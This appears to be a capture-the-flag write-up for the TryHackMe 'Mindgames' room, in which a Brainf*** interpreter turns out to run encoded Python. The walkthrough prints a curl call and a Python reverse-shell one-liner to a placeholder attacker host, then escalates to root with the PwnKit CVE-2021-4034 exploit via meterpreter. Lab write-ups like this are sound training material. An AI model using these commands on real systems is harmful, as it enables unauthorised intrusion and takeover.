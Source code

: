 [Mindgames](https://tryhackme.com/room/mindgames) is a machine that is rather modest with its description. Only worthy information I got is to "keep enumerating" so I'm just gonna assume it's an enumeration heavy machine.

Let's start with nmap.
 Since this is an enumeration heavy machine (speculative), I'm gonna run nmap more than once. Just to be safe.
```
$ nmap -A -T4 -vv mindgames.thm
$ nmap -sV -sC -T4 -p- -vv mindgames.thm
$ nmap -sU -vv mindgames.thm
```

Which yielded the following:
```
Nmap scan report for mindgames.thm (10.10.181.52)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Mindgames.
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
```

Hopping over to the site we are introduced to the following page:
![](./images/img1.png)

Aside from the apology, the website is a simple interpreter for the Brainf*** programming language (going to abbreviate to BF for the rest of this writeup.)

Doing some more digging, I found that the interpreter is actually an API that gets called everytime code is submitted.

Contents of `mindgames.thm/main.js`:
```

async function postData(url = "", data = "") {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'text/plain'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: data // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
function onLoad() {
    document.querySelector("#codeForm").addEventListener("submit", function (event) {
        event.preventDefault()
        runCode()
    });
}
async function runCode() {
    const programBox = document.querySelector("#code")
    const outBox = document.querySelector("#outputBox")
    outBox.textContent = await (await postData("/api/bf", programBox.value)).text()
}
async function postData(url = "", data = "") {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'text/plain'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: data // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
function onLoad() {
    document.querySelector("#codeForm").addEventListener("submit", function (event) {
        event.preventDefault()
        runCode()
    });
}
async function runCode() {
    const programBox = document.querySelector("#code")
    const outBox = document.querySelector("#outputBox")
    outBox.textContent = await (await postData("/api/bf", programBox.value)).text()
}
```

Enumerating for further subdirectories lead nowhere and enumerating for additional API's lead nowhere either. So we'll focus on what we have for now.

Since we can provide whatever code we want into the textbox, I wanted to see if I could execute my own. However, I have no knowledge when it comes to BF. So I decided to see if there was 
a transpiler (software which converts code from one language to another) that could help me write something.

However, in the middle of searching for a transpiler, I found out that BF can be used to encode a piece of text. And then it hit me.

what if maybe, just maybe, the code we were provided may just be encoded from another language? So I copied the code and put it in a BF interpreter. ([this one to be exact](https://www.dcode.fr/brainfuck-language))

Putting in the "Hello, world" code, I get `print("Hello, World")`.\
Putting in the Fibonacci code, I get:
```
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)


for i in range(10):
    print(F(i))
```
Well there you have it.

Since this is just encoded python, We should be able to connect to other machines. So I decided to encode the following snippet:
```
import os;os.system('curl <attacker ip>:8000)')
```
and host a python HTTP server on my end.

Lo and behold:
![](./images/img2.png)

Can I push it and revshell into this machine?

Decided to encode the following from [revshells](www.revshells.com):
```
import os,pty,socket;s=socket.socket();s.connect(("<attacker ip>",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

Executing it:
![](./images/img3.png)
At this point, I started to become suspicious. This all felt way too easy. Nevertheless, we got a foothold and thats better than nothing.
Knowing how fragile a python revshell like this would be, I decided to upgrade to a meterpreter shell.

![](./images/img4.png)

And with that, We are now able to get the user flag.
```
meterpreter > ls
Listing: /home/mindgames
========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2025-09-13 03:38:36 -0400  .bash_history
100644/rw-r--r--  220   fil   2020-05-11 09:48:43 -0400  .bash_logout
100644/rw-r--r--  3771  fil   2020-05-11 09:48:43 -0400  .bashrc
040700/rwx------  4096  dir   2020-05-11 10:07:05 -0400  .cache
040700/rwx------  4096  dir   2020-05-11 10:07:05 -0400  .gnupg
040775/rwxrwxr-x  4096  dir   2020-05-11 11:24:05 -0400  .local
100644/rw-r--r--  807   fil   2020-05-11 09:48:43 -0400  .profile
100664/rw-rw-r--  38    fil   2020-05-11 11:24:07 -0400  user.txt
040775/rwxrwxr-x  4096  dir   2025-09-13 04:30:35 -0400  webserver

meterpreter > cat user.txt
<redacted>
meterpreter > 
```

Now for the root flag.

To start off, let's just send a linPEAS script to automate a few things and see where things go from there.
Thankfully, I didn't have to look too far to find some useful info.

![](./images/img5.png)

Looking up "pkexec 0.105" lead me to [CVE-2021-4034.](https://nvd.nist.gov/vuln/detail/cve-2021-4034) An exploit named [PwnKit](https://github.com/ly4k/PwnKit) makes use of this vulnerability.

So after downloading it on my machine and uploading it to the vulnerable machine:

```
meterpreter > upload PwnKit
[*] Uploading  : /root/PwnKit -> PwnKit
[*] Uploaded -1.00 B of 17.62 KiB (-0.01%): /root/PwnKit -> PwnKit
[*] Completed  : /root/PwnKit -> PwnKit
meterpreter > shell
Process 6336 created.
Channel 13 created.
chmod +x PwnKit
./PwnKit
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root
cd ~   
ls
root.txt
cat root.txt
<redacted>
```

I really liked the idea behind this machine. No matter how dirty it was to use a language as a decoder for another language. I do wish the escalation part was harder, but I do feel like the user flag will throw enough people off to mitigate that.
